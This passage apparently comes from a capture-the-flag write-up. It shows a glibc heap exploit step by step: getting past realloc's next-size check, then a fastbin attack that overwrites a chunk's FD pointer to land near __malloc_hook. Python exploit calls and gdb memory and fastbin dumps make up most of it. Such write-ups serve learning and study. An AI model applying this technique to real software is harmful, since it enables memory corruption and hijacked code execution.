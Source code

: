 Now if we call `edit` on chunk `x`, we will be able to overwrite `memo_4`'s FD pointer with an area close to `__malloc_hook`.
But, not so easy. `_int_realloc` uses the same checks as `_int_free` when it's called.

```c
  if (__builtin_expect (chunksize_nomask (next) <= 2 * SIZE_SZ, 0)
      || __builtin_expect (nextsize >= av->system_mem, 0))
    malloc_printerr ("realloc(): invalid next size");
```

`nextsize` of `x->name` would be `0x555555757200 + 0x20 == 0x0000000100000068` with current `system_mem` being `0x21000`. This is
definitely much bigger than the allowed size. That being said, we need to re-request `memo_4` back and change `0x0000000100000068`
to a logical number. 

```python
alloc(0x68, p64(0x21)*2)
```

```
0x5555557571b0:	0x0000000000000020	0x0000000000000020 <-- x
0x5555557571c0:	0x0000555555757210	0x0000000100000018
0x5555557571d0:	0x0000000000000020	0x0000000000000020
0x5555557571e0:	0x0000000000000020	0x0000000000000020
0x5555557571f0:	0x0000000000000020	0x0000000000000020
0x555555757200:	0x0000000000000020	0x0000000000000020 <-- x->name
0x555555757210:	0x0000000000000000	0x0000000000000071 <-- memo_4
0x555555757220:	0x0000000000000021	0x0000000000000021
```

Now that this has been taken care of, we can free `memo_4` again and finally edit `x->name`.

```python
free(4)
# Fastbin attack - overwrite victim's FD
edit(5, 0x18, p64(0) + p64(0x71) + p64(mhook - 0x30 + 0xd))
```

```
(0x20)     fastbin[0]: 0x5555557572a0 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x555555757210 --> 0x7ffff7dd1aed 
(0x80)     fastbin[6]: 0x0


0x5555557571b0:	0x0000000000000020	0x0000000000000020 <-- x
0x5555557571c0:	0x0000555555757210	0x0000000000000018
0x5555557571d0:	0x0000000000000020	0x0000000000000020
0x5555557571e0:	0x0000000000000020	0x0000000000000020
0x5555557571f0:	0x0000000000000020	0x0000000000000020
0x555555757200:	0x0000000000000020	0x0000000000000020 <-- x->name
0x555555757210:	0x0000000000000000	0x0000000000000071 <-- memo_4 
0x555555757220:	0x00007ffff7dd1aed	0x0000000000000021

gdb-peda$ x/4gx 0x7ffff7dd1aed
0x7ffff7dd1aed:	0xfff7dd0260000000	0x000000000000007f <-- valid size
0x7ffff7dd1afd:	0xfff7a92e20000000	0x000000000000007f
```
